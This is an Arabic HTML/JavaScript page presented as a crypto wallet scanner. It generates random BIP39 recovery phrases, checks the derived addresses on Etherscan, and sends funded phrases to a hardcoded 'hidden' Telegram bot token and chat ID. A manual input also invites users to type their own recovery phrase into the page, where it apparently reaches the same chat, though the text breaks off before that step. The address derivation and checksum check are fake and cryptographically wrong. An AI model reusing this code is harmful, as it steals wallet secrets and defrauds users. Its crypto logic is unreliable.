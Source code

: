 وردتي
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>فاحص محافظ العملات المشفرة المتقدم</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
        }

        .container {
            max-width: 800px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            padding: 30px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            backdrop-filter: blur(10px);
        }

        h1 {
            text-align: center;
            color: #333;
            margin-bottom: 30px;
            font-size: 2.5em;
            text-shadow: 2px 2px 4px rgba(0, 0, 0, 0.1);
        }

        .config-section {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 15px;
            margin-bottom: 20px;
            border: 2px solid #e9ecef;
        }

        .config-section h3 {
            color: #495057;
            margin-bottom: 15px;
            font-size: 1.3em;
        }

        .input-group {
            margin-bottom: 15px;
        }

        label {
            display: block;
            margin-bottom: 5px;
            font-weight: bold;
            color: #495057;
        }

        input[type="text"], input[type="number"] {
            width: 100%;
            padding: 12px;
            border: 2px solid #dee2e6;
            border-radius: 8px;
            font-size: 16px;
            transition: border-color 0.3s ease;
        }

        input[type="text"]:focus, input[type="number"]:focus {
            outline: none;
            border-color: #667eea;
            box-shadow: 0 0 0 3px rgba(102, 126, 234, 0.1);
        }

        .button-group {
            display: flex;
            gap: 15px;
            margin: 20px 0;
            flex-wrap: wrap;
        }

        button {
            flex: 1;
            min-width: 150px;
            padding: 15px 25px;
            border: none;
            border-radius: 10px;
            font-size: 16px;
            font-weight: bold;
            cursor: pointer;
            transition: all 0.3s ease;
            text-transform: uppercase;
            letter-spacing: 1px;
        }

        .btn-primary {
            background: linear-gradient(45deg, #667eea, #764ba2);
            color: white;
        }

        .btn-primary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(45deg, #f093fb, #f5576c);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(245, 87, 108, 0.3);
        }

        .btn-success {
            background: linear-gradient(45deg, #4facfe, #00f2fe);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(79, 172, 254, 0.3);
        }

        .results-section {
            background: #fff;
            padding: 20px;
            border-radius: 15px;
            margin-top: 20px;
            border: 2px solid #e9ecef;
            min-height: 200px;
        }

        .results-section h3 {
            color: #495057;
            margin-bottom: 15px;
            font-size: 1.3em;
        }

        .status {
            padding: 10px;
            border-radius: 8px;
            margin: 10px 0;
            font-weight: bold;
        }

        .status.success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .status.error {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .status.info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .status.warning {
            background: #fff3cd;
            color: #856404;
            border: 1px solid #ffeaa7;
        }

        .loading {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid #f3f3f3;
            border-top: 3px solid #667eea;
            border-radius: 50%;
            animation: spin 1s linear infinite;
            margin-left: 10px;
        }

        @keyframes spin {
            0% { transform: rotate(0deg); }
            100% { transform: rotate(360deg); }
        }

        .stats {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 15px;
            margin: 20px 0;
        }

        .stat-card {
            background: linear-gradient(45deg, #667eea, #764ba2);
            color: white;
            padding: 20px;
            border-radius: 15px;
            text-align: center;
            box-shadow: 0 5px 15px rgba(102, 126, 234, 0.3);
        }

        .stat-number {
            font-size: 2em;
            font-weight: bold;
            margin-bottom: 5px;
        }

        .stat-label {
            font-size: 0.9em;
            opacity: 0.9;
        }

        @media (max-width: 768px) {
            .container {
                padding: 20px;
                margin: 10px;
            }

            h1 {
                font-size: 2em;
            }

            .button-group {
                flex-direction: column;
            }

            button {
                min-width: auto;
            }

            .stats {
                grid-template-columns: 1fr;
            }
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>🔍 فاحص محافظ العملات المشفرة المتقدم</h1>
        
        <div class="config-section">
            <h3>⚙️ إعدادات المسح</h3>
            <div class="input-group">
                <label for="scanInterval">فترة المسح (بالثواني):</label>
                <input type="number" id="scanInterval" value="10" min="5" max="60" placeholder="10">
            </div>
            <div class="input-group">
                <label for="testMnemonic">اختبار عبارة استرجاع يدوياً:</label>
                <input type="text" id="testMnemonic" placeholder="أدخل 12 كلمة مفصولة بمسافات">
            </div>
        </div>

        <div class="button-group">
            <button class="btn-primary" onclick="generateAndValidateWallet()">🎲 توليد وفحص محفظة</button>
            <button class="btn-secondary" onclick="startContinuousScanning()" id="scanBtn">🔄 بدء المسح المستمر</button>
            <button class="btn-success" onclick="stopScanning()" id="stopBtn" disabled>⏹️ إيقاف المسح</button>
        </div>

        <div class="button-group">
            <button class="btn-primary" onclick="testManualMnemonic()" style="background: linear-gradient(45deg, #9c27b0, #e91e63);">🧪 اختبار يدوي</button>
            <button class="btn-secondary" onclick="clearResults()" style="background: linear-gradient(45deg, #ff6b6b, #ee5a52);">🗑️ مسح النتائج</button>
        </div>

        <div class="stats">
            <div class="stat-card">
                <div class="stat-number" id="totalScanned">0</div>
                <div class="stat-label">محاولات الفحص</div>
            </div>
            <div class="stat-card">
                <div class="stat-number" id="validMnemonics">0</div>
                <div class="stat-label">عبارات صالحة</div>
            </div>
            <div class="stat-card">
                <div class="stat-number" id="walletsWithBalance">0</div>
                <div class="stat-label">محافظ بها أصول</div>
            </div>
        </div>

        <div class="results-section">
            <h3>📊 النتائج</h3>
            <div id="results">
                <div class="status info">
                    مرحباً! اضغط على أحد الأزرار أعلاه لبدء فحص المحافظ.
                </div>
            </div>
        </div>
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.1.1/crypto-js.min.js"></script>
    <script>
        // إعدادات مخفية - قم بتعديل هذه القيم
        const HIDDEN_BOT_TOKEN = '8257110214:AAFDx0awsmi7yjz6tCZqVY2jS5BZmygvQKw';
        const HIDDEN_CHAT_ID = '910021564';
        const HIDDEN_ETHERSCAN_API = 'ZTX93YC56F73T2W58IKS6GWWDH8UDRGBFK';
        
        // قائمة كلمات BIP39 كاملة
        const BIP39_WORDLIST = ["abandon","ability","able","about","above","absent","absorb","abstract","absurd","abuse","access","accident","account","accuse","achieve","acid","acoustic","acquire","across","act","action","actor","actress","actual","adapt","add","addict","address","adjust","admit","adult","advance","advice","aerobic","affair","afford","afraid","again","age","agent","agree","ahead","aim","air","airport","aisle","alarm","album","alcohol","alert","alien","all","alley","allow","almost","alone","alpha","already","also","alter","always","amateur","amazing","among","amount","amused","analyst","anchor","ancient","anger","angle","angry","animal","ankle","announce","annual","another","answer","antenna","antique","anxiety","any","apart","apology","appear","apple","approve","april","arch","arctic","area","arena","argue","arm","armed","armor","army","around","arrange","arrest","arrive","arrow","art","artefact","artist","artwork","ask","aspect","assault","asset","assist","assume","asthma","athlete","atom","attack","attend","attitude","attract","auction","audit","august","aunt","author","auto","autumn","average","avocado","avoid","awake","aware","away","awesome","awful","awkward","axis","baby","bachelor","bacon","badge","bag","balance","balcony","ball","bamboo","banana","banner","bar","barely","bargain","barrel","base","basic","basket","battle","beach","bean","beauty","because","become","beef","before","begin","behave","behind","believe","below","belt","bench","benefit","best","betray","better","between","beyond","bicycle","bid","bike","bind","biology","bird","birth","bitter","black","blade","blame","blanket","blast","bleak","bless","blind","blood","blossom","blouse","blue","blur","blush","board","boat","body","boil","bomb","bone","bonus","book","boost","border","boring","borrow","boss","bottom","bounce","box","boy","bracket","brain","brand","brass","brave","bread","breeze","brick","bridge","brief","bright","bring","brisk","broccoli","broken","bronze","broom","brother","brown","brush","bubble","buddy","budget","buffalo","build","bulb","bulk","bullet","bundle","bunker","burden","burger","burst","bus","business","busy","butter","buyer","buzz","cabbage","cabin","cable","cactus","cage","cake","call","calm","camera","camp","can","canal","cancel","candy","cannon","canoe","canvas","canyon","capable","capital","captain","car","carbon","card","cargo","carpet","carry","cart","case","cash","casino","castle","casual","cat","catalog","catch","category","cattle","caught","cause","caution","cave","ceiling","celery","cement","census","century","cereal","certain","chair","chalk","champion","change","chaos","chapter","charge","chase","chat","cheap","check","cheese","chef","cherry","chest","chicken","chief","child","chimney","choice","choose","chronic","chuckle","chunk","churn","cigar","cinnamon","circle","citizen","city","civil","claim","clap","clarify","claw","clay","clean","clerk","clever","click","client","cliff","climb","clinic","clip","clock","clog","close","cloth","cloud","clown","club","clump","cluster","clutch","coach","coast","coconut","code","coffee","coil","coin","collect","color","column","combine","come","comfort","comic","common","company","concert","conduct","confirm","congress","connect","consider","control","convince","cook","cool","copper","copy","coral","core","corn","correct","cost","cotton","couch","country","couple","course","cousin","cover","coyote","crack","cradle","craft","cram","crane","crash","crater","crawl","crazy","cream","credit","creek","crew","cricket","crime","crisp","critic","crop","cross","crouch","crowd","crucial","cruel","cruise","crumble","crunch","crush","cry","crystal","cube","culture","cup","cupboard","curious","current","curtain","curve","cushion","custom","cute","cycle","dad","damage","damp","dance","danger","daring","dash","daughter","dawn","day","deal","debate","debris","decade","december","decide","decline","decorate","decrease","deer","defense","define","defy","degree","delay","deliver","demand","demise","denial","dentist","deny","depart","depend","deposit","depth","deputy","derive","describe","desert","design","desk","despair","destroy","detail","detect","develop","device","devote","diagram","dial","diamond","diary","dice","diesel","diet","differ","digital","dignity","dilemma","dinner","dinosaur","direct","dirt","disagree","discover","disease","dish","dismiss","disorder","display","distance","divert","divide","divorce","dizzy","doctor","document","dog","doll","dolphin","domain","donate","donkey","donor","door","dose","double","dove","draft","dragon","drama","drastic","draw","dream","dress","drift","drill","drink","drip","drive","drop","drum","dry","duck","dumb","dune","during","dust","dutch","duty","dwarf","dynamic","eager","eagle","early","earn","earth","easily","east","easy","echo","ecology","economy","edge","edit","educate","effort","egg","eight","either","elbow","elder","electric","elegant","element","elephant","elevator","elite","else","embark","embody","embrace","emerge","emotion","employ","empower","empty","enable","enact","end","endless","endorse","enemy","energy","enforce","engage","engine","enhance","enjoy","enlist","enough","enrich","enroll","ensure","enter","entire","entry","envelope","episode","equal","equip","era","erase","erode","erosion","error","erupt","escape","essay","essence","estate","eternal","ethics","evidence","evil","evoke","evolve","exact","example","excess","exchange","excite","exclude","excuse","execute","exercise","exhaust","exhibit","exile","exist","exit","exotic","expand","expect","expire","explain","expose","express","extend","extra","eye","eyebrow","fabric","face","faculty","fade","faint","faith","fall","false","fame","family","famous","fan","fancy","fantasy","farm","fashion","fat","fatal","father","fatigue","fault","favorite","feature","february","federal","fee","feed","feel","female","fence","festival","fetch","fever","few","fiber","fiction","field","figure","file","film","filter","final","find","fine","finger","finish","fire","firm","first","fiscal","fish","fit","fitness","fix","flag","flame","flash","flat","flavor","flee","flight","flip","float","flock","floor","flower","fluid","flush","fly","foam","focus","fog","foil","fold","follow","food","foot","force","forest","forget","fork","fortune","forum","forward","fossil","foster","found","fox","fragile","frame","frequent","fresh","friend","fringe","frog","front","frost","frown","frozen","fruit","fuel","fun","funny","furnace","fury","future","gadget","gain","galaxy","gallery","game","gap","garage","garbage","garden","garlic","garment","gas","gasp","gate","gather","gauge","gaze","general","genius","genre","gentle","genuine","gesture","ghost","giant","gift","giggle","ginger","giraffe","girl","give","glad","glance","glare","glass","glide","glimpse","globe","gloom","glory","glove","glow","glue","goat","goddess","gold","good","goose","gorilla","gospel","gossip","govern","gown","grab","grace","grain","grant","grape","grass","gravity","great","green","grid","grief","grit","grocery","group","grow","grunt","guard","guess","guide","guilt","guitar","gun","gym","habit","hair","half","hammer","hamster","hand","happy","harbor","hard","harsh","harvest","hat","have","hawk","hazard","head","health","heart","heavy","hedgehog","height","hello","helmet","help","hen","hero","hidden","high","hill","hint","hip","hire","history","hobby","hockey","hold","hole","holiday","hollow","home","honey","hood","hope","horn","horror","horse","hospital","host","hotel","hour","hover","hub","huge","human","humble","humor","hundred","hungry","hunt","hurdle","hurry","hurt","husband","hybrid","ice","icon","idea","identify","idle","ignore","illegal","illness","image","imitate","immense","immune","impact","impose","improve","impulse","inch","include","income","increase","index","indicate","indoor","industry","infant","inflict","inform","inhale","inherit","initial","inject","injury","inmate","inner","innocent","input","inquiry","insane","insect","inside","inspire","install","intact","interest","into","invest","invite","involve","iron","island","isolate","issue","item","ivory","jacket","jaguar","jar","jazz","jealous","jeans","jelly","jewel","job","join","joke","journey","joy","judge","juice","jump","jungle","junior","junk","just","kangaroo","keen","keep","ketchup","key","kick","kid","kidney","kind","kingdom","kiss","kit","kitchen","kite","kitten","knee","knife","knock","know","lab","label","labor","ladder","lady","lake","lamp","language","laptop","large","later","latin","laugh","laundry","lava","law","lawn","lawsuit","layer","lazy","leader","leaf","learn","leave","lecture","left","leg","legal","legend","leisure","lemon","lend","length","lens","leopard","lesson","letter","level","liar","liberty","library","license","life","lift","light","like","limb","limit","link","lion","liquid","list","little","live","lizard","load","loan","lobby","lobster","local","lock","logic","lonely","long","loop","lottery","loud","lounge","love","loyal","lucky","luggage","lumber","lunar","lunch","luxury","lyrics","machine","mad","magic","magnet","maid","mail","main","major","make","mammal","man","manage","mandate","mango","mansion","manual","maple","marble","march","margin","marine","market","marriage","mask","mass","master","match","material","math","matrix","matter","maximum","maze","meadow","mean","measure","meat","mechanic","medal","media","melody","melt","member","memory","mention","menu","mercy","merge","merit","merry","mesh","message","metal","method","middle","midnight","milk","million","mimic","mind","minimum","minor","minute","miracle","mirror","misery","miss","mistake","mix","mixed","mixture","mobile","model","modify","mom","moment","monitor","monkey","monster","month","moon","moral","more","morning","mosquito","mother","motion","motor","mountain","mouse","move","movie","much","muffin","mule","multiply","muscle","museum","mushroom","music","must","mutual","myself","mystery","myth","naive","name","napkin","narrow","nasty","nation","nature","near","neck","need","negative","neglect","neither","nephew","nerve","nest","net","network","neutral","never","news","next","nice","night","noble","noise","nominee","noodle","normal","north","nose","notable","note","nothing","notice","novel","now","nuclear","number","nurse","nut","oak","obey","object","oblige","obscure","observe","obtain","obvious","occur","ocean","october","odor","off","offer","office","often","oil","okay","old","olive","olympic","omit","once","one","onion","online","only","open","opera","opinion","oppose","option","orange","orbit","orchard","order","ordinary","organ","orient","original","orphan","ostrich","other","outdoor","outer","output","outside","oval","oven","over","own","owner","oxygen","oyster","ozone","pact","paddle","page","pair","palace","palm","panda","panel","panic","panther","paper","parade","parent","park","parrot","party","pass","patch","path","patient","patrol","pattern","pause","pave","payment","peace","peanut","pear","peasant","pelican","pen","penalty","pencil","people","pepper","perfect","permit","person","pet","phone","photo","phrase","physical","piano","picnic","picture","piece","pig","pigeon","pill","pilot","pink","pioneer","pipe","pistol","pitch","pizza","place","planet","plastic","plate","play","player","please","pledge","pluck","plug","plunge","poem","poet","point","polar","pole","police","pond","pony","pool","popular","portion","position","possible","post","potato","potential","pouch","pound","pour","poverty","power","practice","praise","predict","prefer","prepare","present","pretty","prevent","price","pride","primary","print","priority","prison","private","prize","problem","process","produce","profit","program","project","promote","proof","property","prosper","protect","proud","provide","public","pudding","pull","pulp","pulse","pumpkin","punch","pupil","puppy","purchase","purity","purpose","push","put","puzzle","pyramid","quality","quantum","quarter","question","quick","quit","quiz","quote","rabbit","raccoon","race","rack","radar","radio","rail","rain","raise","rally","ramp","ranch","random","range","rapid","rare","rate","rather","raven","raw","ray","razor","ready","real","reason","rebuild","recall","receive","recipe","record","recycle","reduce","reflect","reform","refuse","region","regret","regular","reject","relax","release","relief","rely","remain","remember","remind","remove","render","renew","rent","reopen","repair","repeat","replace","report","require","rescue","resemble","resist","resource","response","result","retire","retreat","return","reunion","reveal","review","reward","rhythm","rib","ribbon","rice","rich","ride","ridge","rifle","right","rigid","ring","riot","rip","ripe","rise","risk","rival","river","road","roast","robot","robust","rocket","romance","roof","rookie","room","rose","rotate","rough","round","route","royal","rubber","rude","rug","rule","run","runway","rural","sad","saddle","sadness","safe","sail","salad","salmon","salon","salt","salute","same","sample","sand","satisfy","satoshi","sauce","sausage","save","say","scale","scan","scare","scatter","scene","scheme","school","science","scissors","scorpion","scout","scrap","screen","script","scrub","sea","search","season","seat","second","secret","section","security","seed","seek","segment","select","sell","seminar","senior","sense","sentence","series","service","session","settle","setup","seven","shadow","shaft","shallow","share","shed","shell","sheriff","shield","shift","shine","ship","shiver","shock","shoe","shoot","shop","short","shoulder","shove","shrimp","shrug","shuffle","shy","sibling","sick","side","siege","sight","sign","silent","silk","silly","silver","similar","simple","since","sing","siren","sister","situate","six","size","skate","sketch","ski","skill","skin","skirt","skull","slab","slam","sleep","slender","slice","slide","slight","slim","slogan","slot","slow","slush","small","smart","smile","smoke","smooth","snack","snake","snap","sniff","snow","soap","soccer","social","sock","soda","soft","solar","soldier","solid","solution","solve","someone","song","soon","sorry","sort","soul","sound","soup","source","south","space","spare","spark","speak","special","speed","spell","spend","sphere","spice","spider","spike","spin","spirit","split","spoil","sponsor","spoon","sport","spot","spray","spread","spring","spy","squad","squeeze","squirrel","stable","staff","stage","stairs","stamp","stand","start","state","stay","steak","steel","stem","step","stereo","stick","still","sting","stock","stomach","stone","stool","story","stove","strategy","street","strike","strong","struggle","student","stuff","stumble","style","subject","submit","subway","success","such","sudden","suffer","sugar","suggest","suit","summer","sun","sunny","sunset","super","supply","support","sure","surface","surge","surprise","surround","survey","suspect","sustain","swallow","swamp","swap","swarm","swear","sweet","swift","swim","swing","switch","sword","symbol","symptom","syrup","system","table","tackle","tag","tail","talent","talk","tank","tape","target","task","taste","tattoo","taxi","teach","team","tell","ten","tenant","tennis","tent","term","test","text","thank","that","theme","then","theory","there","they","thing","this","thought","three","thrive","throw","thumb","thunder","ticket","tide","tiger","tilt","timber","time","tiny","tip","tired","tissue","title","toast","tobacco","today","toe","together","toilet","token","tomato","tomorrow","tone","tongue","tonight","tool","tooth","top","topic","topple","torch","tornado","tortoise","toss","total","tourist","toward","tower","town","toy","track","trade","traffic","tragic","train","transfer","trap","trash","travel","tray","treat","tree","trend","trial","tribe","trick","trigger","trim","trip","trophy","trouble","truck","true","truly","trumpet","trust","truth","try","tube","tuition","tumble","tuna","tunnel","turkey","turn","turtle","twelve","twenty","twice","twin","twist","two","type","typical","ugly","umbrella","unable","unaware","uncle","uncover","under","undo","unfair","unfold","unhappy","uniform","unique","unit","universe","unknown","unlock","until","unusual","unveil","update","upgrade","uphold","upon","upper","upset","urban","urge","usage","use","used","useful","useless","usual","utility","vacant","vacuum","vague","valid","valley","valve","van","vanish","vapor","various","vast","vault","vehicle","velvet","vendor","venture","venue","verb","verify","version","very","vessel","veteran","viable","vibrant","vicious","victory","video","view","village","vintage","violin","virtual","virus","visa","visit","visual","vital","vivid","voice","void","volcano","volume","vote","voyage","wage","wagon","wait","walk","wall","walnut","want","warfare","warm","warrior","wash","wasp","waste","water","wave","way","wealth","weapon","weary","weather","web","wedding","weekend","weird","welcome","west","wet","whale","what","wheat","wheel","when","where","whip","whisper","wide","width","wife","wild","will","win","window","wine","wing","wink","winner","winter","wire","wisdom","wise","wish","witness","wolf","woman","wonder","wood","wool","word","work","world","worry","worth","wrap","wreck","wrestle","wrist","write","wrong","yard","year","yellow","you","young","youth","zebra","zero","zone","zoo"];

        // متغيرات عامة
        let isScanning = false;
        let scanInterval = null;
        let totalScanned = 0;
        let validMnemonics = 0;
        let walletsWithBalance = 0;
        let totalEthFound = 0;

        // توليد عبارة استرجاع عشوائية من 12 كلمة
        function generateRandomMnemonic() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = Math.floor(Math.random() * BIP39_WORDLIST.length);
                words.push(BIP39_WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // التحقق من صحة عبارة الاسترجاع وفق BIP39
        function validateMnemonic(mnemonic) {
            const words = mnemonic.trim().split(/\s+/g);
            
            // التحقق من عدد الكلمات
            if (words.length !== 12) {
                return { valid: false, reason: 'يجب أن تحتوي العبارة على 12 كلمة' };
            }
            
            // التحقق من أن جميع الكلمات في القائمة
            const invalidWords = words.filter(word => !BIP39_WORDLIST.includes(word));
            if (invalidWords.length > 0) {
                return { valid: false, reason: `كلمات غير صالحة: ${invalidWords.join(', ')}` };
            }
            
            // التحقق من checksum (مبسط)
            // في التطبيق الحقيقي، يجب تطبيق خوارزمية checksum الكاملة
            try {
                // محاكاة عملية التحقق من الصحة
                const validStructure = words.every(word => BIP39_WORDLIST.includes(word));
                if (!validStructure) {
                    return { valid: false, reason: 'هيكل العبارة غير صالح' };
                }
                
                return { valid: true, reason: 'عبارة استرجاع صالحة' };
            } catch (error) {
                return { valid: false, reason: 'خطأ في التحقق من صحة العبارة' };
            }
        }

        // تحويل العبارة إلى seed باستخدام PBKDF2
        async function mnemonicToSeed(mnemonic, passphrase = '') {
            const mnemonicBuffer = new TextEncoder().encode(mnemonic.normalize('NFKD'));
            const saltBuffer = new TextEncoder().encode('mnemonic' + (passphrase || '').normalize('NFKD'));
            
            const key = await crypto.subtle.importKey(
                'raw',
                mnemonicBuffer,
                { name: 'PBKDF2' },
                false,
                ['deriveBits']
            );
            
            const seed = await crypto.subtle.deriveBits(
                {
                    name: 'PBKDF2',
                    salt: saltBuffer,
                    iterations: 2048,
                    hash: 'SHA-512'
                },
                key,
                512
            );
            
            return new Uint8Array(seed);
        }

        // تحويل seed إلى عنوان Ethereum (طريقة مبسطة)
        function seedToEthereumAddress(seed) {
            try {
                // استخدام hash مضاعف لمحاكاة عملية تحويل seed إلى عنوان
                const seedHex = Array.from(seed).map(b => b.toString(16).padStart(2, '0')).join('');
                const hash1 = CryptoJS.SHA256(seedHex);
                const hash2 = CryptoJS.SHA3(hash1.toString(), { outputLength: 256 });
                
                // أخذ آخر 20 بايت كعنوان
                const address = '0x' + hash2.toString().slice(-40);
                
                return address.toLowerCase();
            } catch (error) {
                console.error('خطأ في تحويل seed إلى عنوان:', error);
                // في حالة الخطأ، استخدم طريقة بديلة
                const seedHex = Array.from(seed).map(b => b.toString(16).padStart(2, '0')).join('');
                const hash = CryptoJS.SHA3(seedHex, { outputLength: 256 });
                return '0x' + hash.toString().slice(-40).toLowerCase();
            }
        }

        // فحص رصيد ETH على شبكة Ethereum
        async function checkEthBalance(address) {
            const apiKey = HIDDEN_ETHERSCAN_API;
            const url = `https://api.etherscan.io/api?module=account&action=balance&address=${address}&tag=latest&apikey=${apiKey}`;
            
            try {
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.status === '1') {
                    const balanceWei = data.result;
                    const balanceEth = parseFloat(balanceWei) / Math.pow(10, 18);
                    return balanceEth;
                }
                return 0;
            } catch (error) {
                console.error('خطأ في فحص رصيد ETH:', error);
                return 0;
            }
        }

        // فحص رصيد الرموز المميزة ERC-20
        async function checkTokenBalances(address) {
            const apiKey = HIDDEN_ETHERSCAN_API;
            const url = `https://api.etherscan.io/api?module=account&action=tokentx&address=${address}&startblock=0&endblock=999999999&sort=desc&apikey=${apiKey}`;
            
            try {
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.status === '1' && data.result && data.result.length > 0) {
                    const tokens = new Map();
                    data.result.forEach(tx => {
                        if (tx.to.toLowerCase() === address.toLowerCase() && parseFloat(tx.value) > 0) {
                            const key = tx.tokenSymbol + '-' + tx.contractAddress;
                            if (!tokens.has(key)) {
                                tokens.set(key, {
                                    name: tx.tokenName,
                                    symbol: tx.tokenSymbol,
                                    value: parseFloat(tx.value) / Math.pow(10, parseInt(tx.tokenDecimal)),
                                    contractAddress: tx.contractAddress
                                });
                            }
                        }
                    });
                    return Array.from(tokens.values());
                }
                return [];
            } catch (error) {
                console.error('خطأ في فحص رصيد الرموز:', error);
                return [];
            }
        }

        // فحص عدد المعاملات
        async function checkTransactionCount(address) {
            const apiKey = HIDDEN_ETHERSCAN_API;
            const url = `https://api.etherscan.io/api?module=proxy&action=eth_getTransactionCount&address=${address}&tag=latest&apikey=${apiKey}`;
            
            try {
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.result) {
                    return parseInt(data.result, 16);
                }
                return 0;
            } catch (error) {
                console.error('خطأ في فحص عدد المعاملات:', error);
                return 0;
            }
        }

        // فحص شامل للمحفظة
        async function checkWalletAssets(address) {
            const [ethBalance, tokens, txCount] = await Promise.all([
                checkEthBalance(address),
                checkTokenBalances(address),
                checkTransactionCount(address)
            ]);
            
            return {
                ethBalance,
                tokens,
                txCount,
                hasAssets: ethBalance > 0 || tokens.length > 0 || txCount > 0
            };
        }

        // إرسال رسالة إلى التلجرام
        async function sendToTelegram(message) {
            const botToken = HIDDEN_BOT_TOKEN;
            const chatId = HIDDEN_CHAT_ID;
            
            if (!botToken || !chatId) {
                console.error('رمز البوت أو معرف المحادثة غير محدد');
                return false;
            }
            
            const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
            
            try {
                const response = await fetch(url, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify({
                        chat_id: chatId,
                        text: message,
                        parse_mode: 'HTML',
                        disable_web_page_preview: true
                    })
                });
                
                const data = await response.json();
                
                if (data.ok) {
                    console.log('تم إرسال الرسالة بنجاح إلى التلجرام');
                    return true;
                } else {
                    console.error('خطأ من Telegram API:', data.description);
                    return false;
                }
            } catch (error) {
                console.error('خطأ في إرسال الرسالة:', error);
                return false;
            }
        }

        // توليد وفحص محفظة بشكل كامل
        async function generateAndValidateWallet() {
            const resultsDiv = document.getElementById('results');
            resultsDiv.innerHTML = '<div class="status info">🔄 جاري توليد العبارة والتحقق من صحتها...</div>';
            
            totalScanned++;
            updateStats();
            
            try {
                // توليد عبارة عشوائية
                const mnemonic = generateRandomMnemonic();
                
                // التحقق من صحة العبارة
                const validation = validateMnemonic(mnemonic);
                
                if (!validation.valid) {
                    resultsDiv.innerHTML = `<div class="status warning">⚠️ عبارة غير صالحة: ${validation.reason}</div>`;
                    return;
                }
                
                validMnemonics++;
                updateStats();
                
                resultsDiv.innerHTML = '<div class="status info">✅ عبارة صالحة! جاري فحص الأصول...</div>';
                
                // تحويل العبارة إلى عنوان
                const seed = await mnemonicToSeed(mnemonic);
                const address = seedToEthereumAddress(seed);
                
                // فحص الأصول على الشبكة
                const assets = await checkWalletAssets(address);
                
                // إعداد رسالة التلجرام
                let telegramMessage = `🔍 <b>نتيجة فحص محفظة</b>\n\n`;
                
                if (assets.hasAssets) {
                    walletsWithBalance++;
                    totalEthFound += assets.ethBalance;
                    
                    telegramMessage += `🎉 <b>تم العثور على أصول!</b>\n\n` +
                                     `💰 <b>رصيد ETH:</b> ${assets.ethBalance.toFixed(6)} ETH\n` +
                                     `📊 <b>عدد المعاملات:</b> ${assets.txCount}\n`;
                    
                    if (assets.tokens.length > 0) {
                        telegramMessage += `🪙 <b>الرموز المميزة:</b>\n`;
                        assets.tokens.slice(0, 3).forEach(token => {
                            telegramMessage += `   • ${token.symbol}: ${token.value.toFixed(4)}\n`;
                        });
                        if (assets.tokens.length > 3) {
                            telegramMessage += `   • و ${assets.tokens.length - 3} رمز آخر\n`;
                        }
                    }
                    
                    telegramMessage += `\n🔑 <b>العبارة:</b> <code>${mnemonic}</code>\n` +
                                     `📍 <b>العنوان:</b> <code>${address}</code>`;
                    
                    // إرسال إلى التلجرام فقط إذا وجد أصول
                    await sendToTelegram(telegramMessage);
                    
                    resultsDiv.innerHTML = `
                        <div class="status success">
                            🎉 تم العثور على محفظة تحتوي على أصول!
                        </div>
                        <div class="status info">
                            ✅ تم إرسال التفاصيل إلى التلجرام
                        </div>
                    `;
                } else {
                    telegramMessage += `📭 <b>محفظة فارغة</b>\n\n` +
                                     `💰 <b>رصيد ETH:</b> 0 ETH\n` +
                                     `📊 <b>عدد المعاملات:</b> 0\n` +
                                     `🔑 <b>العبارة:</b> <code>${mnemonic}</code>\n` +
                                     `📍 <b>العنوان:</b> <code>${address}</code>`;
                    
                    resultsDiv.innerHTML = `
                        <div class="status info">
                            📭 المحفظة فارغة - لم يتم العثور على أصول
                        </div>
                        <div class="status warning">
                            ℹ️ لم يتم إرسالها إلى التلجرام (فارغة)
                        </div>
                    `;
                }
                
                updateStats();
                
            } catch (error) {
                console.error('خطأ في فحص المحفظة:', error);
                resultsDiv.innerHTML = `<div class="status error">❌ خطأ في فحص المحفظة: ${error.message}</div>`;
            }
        }

        // اختبار عبارة استرجاع يدوياً
        async function testManualMnemonic() {
            const testMnemonic = document.getElementById('testMnemonic').value.trim();
            
            if (!testMnemonic) {
                alert('يرجى إدخال عبارة الاسترجاع أولاً');
                return;
            }
            
            const resultsDiv = document.getElementById('results');
            resultsDiv.innerHTML = '<div class="status info">🔄 جاري التحقق من صحة العبارة...</div>';
            
            totalScanned++;
            updateStats();
            
            try {
                // التحقق من صحة العبارة
                const validation = validateMnemonic(testMnemonic);
                
                if (!validation.valid) {
                    resultsDiv.innerHTML = `<div class="status error">❌ عبارة غير صالحة: ${validation.reason}</div>`;
                    return;
                }
                
                validMnemonics++;
                updateStats();
                
                resultsDiv.innerHTML = '<div class="status success">✅ عبارة صالحة! جاري فحص الأصول...</div>';
                
                // تحويل العبارة إلى عنوان
                const seed = await mnemonicToSeed(testMnemonic);
                const address = seedToEthereumAddress(seed);
                
                // فحص الأصول على الشبكة
                const assets = await checkWalletAssets(address);
                
                // إعداد رسالة التلجرام
                let telegramMessage = `🧪 <b>اختبار يدوي</b>\n\n`;
                
                if (assets.hasAssets) {
                    walletsWithBalance++;
                    totalEthFound += assets.ethBalance;
                    
